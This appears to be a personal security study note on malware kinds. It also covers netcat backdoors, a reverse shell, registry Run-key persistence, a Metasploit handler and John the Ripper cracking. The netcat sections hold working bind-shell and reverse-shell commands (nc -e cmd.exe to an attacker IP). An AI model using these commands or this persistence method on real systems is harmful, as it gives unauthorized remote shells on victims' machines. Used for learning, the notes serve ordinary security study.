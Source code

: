 #### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)


![Screenshot at 2022-12-25 13-05-33](https://user-images.githubusercontent.com/85208639/209460287-434fc945-ac92-4dc4-8a47-4bc57df29c0e.png)

#### Session Management With Metasploit 
> Since we have already obtained shell previously we can use metasploit to get more features.

#### Convert Reverse Shell to Meterpreter Shell
```
use multi/hander
set LHOST, LPORT on which you will listen and run
```

#### Password Attacks

##### Password Cracking
>Process of recoveing plaintext password from hash. Here attacker tries to guess password, hashes it and then compares the result against the password file.

##### Techniques
* Bruteforce Attack (Takes heck long time but yeilds better result)
* Dictionary Attack (Faster)

##### John the Ripper
###### M4ng1ing Rules with john the ripper
```
john -wordlist=file -rules <file to crack>
```
